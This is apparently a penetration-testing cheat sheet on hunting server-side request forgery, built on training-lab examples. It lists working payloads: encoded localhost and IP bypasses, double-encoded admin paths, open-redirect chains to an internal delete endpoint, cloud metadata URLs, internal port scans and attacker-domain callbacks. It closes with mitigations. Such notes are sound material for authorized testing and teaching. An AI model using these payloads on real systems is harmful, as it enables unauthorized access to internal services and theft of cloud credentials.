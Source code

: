 ### SSRF Hunt Methodology

Use only with explicit authorization. This decision tree aligns with your encounters (127.1 shortcut, double-encoded admin, Referer sink, open-redirect chaining) and best practices.

---

## Decision tree: question-driven hunting

1) Find SSRF sinks
- URL-taking parameters (e.g., `stockApi`, `url`, `path`, `feed`, `callback`).
- Headers/cookies (e.g., `Referer`, `X-Forwarded-Host`, `X-Original-URL`).
- File importers, webhooks, PDF/image fetchers, server-side previews.

2) Baseline probes
- Localhost shortcuts: `http://127.0.0.1/`, `http://127.1`, `http://localhost/`.
- Internal nets: `http://192.168.0.1/`, `http://10.0.0.1/`, services on ports.
- Cloud metadata: `http://169.254.169.254/latest/meta-data/` (AWS), GCP/Azure variants.

3) Observe filters and bypass
- IP/keyword blacklist (e.g., blocks `admin` or `127.0.0.1`):
  - Use encodings: `127%2e0%2e0%2e1`, IPv4 integer `2130706433`, octal `017700000001`, hex `0x7f000001`.
  - Use hostname tricks: `127.0.0.1.example.com`, `subdomain.127.0.0.1.nip.io`.
  - Use 127.1 shorthand.
  - Double-encode sensitive path segments: `%2561dmin` for `admin`.
- URL scheme restrictions: try `file://`, `gopher://` (service interactions), `dict://`, `ldap://` if client supports.
- Open redirect chaining: point to known open-redirect endpoint with `target=http://internal/`.

4) Alternate sinks
- Headers: set `Referer` to attacker domain and observe outbound requests/DNS; try `X-Forwarded-Host`, `X-Original-URL`.
- POST/JSON bodies when parameters not obvious; run param miner.

5) Blind SSRF confirmation
- Use OAST: `http://{domain}/p` and watch for DNS/HTTP hits.
- For GCP, add `Metadata-Flavor: Google` header; for Azure include `Metadata:true` param.

6) Target discovery
- Service scan via SSRF: iterate ports (21,25,53,80,139,443,993,1433,9200,6379) on `127.0.0.1` and RFC1918.
- Common internal admin paths: `/admin`, `/admin/delete`, `/login`, `/actuator`, `/metrics`, `/api/internal`.

7) Safety and impact
- Start with GET probes; avoid state-changing requests unless required by lab/scope.
- Prefer read-only metadata endpoints to demonstrate risk.

---

## Quick payload mapping

- Localhost: `http://127.1`, `http://127.0.0.1:8080/`
- Blacklist bypass: `http://127%2e0%2e0%2e1/`, `http://2130706433/`, `stockApi=http://127.1/%2561dmin/delete?username=carlos`
- Open redirect chain: `stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
- Header sink: `Referer: http://{domain}/hit`
- Cloud: `http://169.254.169.254/latest/meta-data/`

---

## Reporting/mitigation

- Use allowlists of destinations; resolve and enforce IP ranges; block link-local (169.254.0.0/16) and localhost.
- Enforce scheme restrictions; disallow file/gopher/dict unless required.
- Do not follow redirects or re-resolve DNS post-validation; pin by IP.
- Require egress proxies with ACLs; log and alert unexpected outbound.


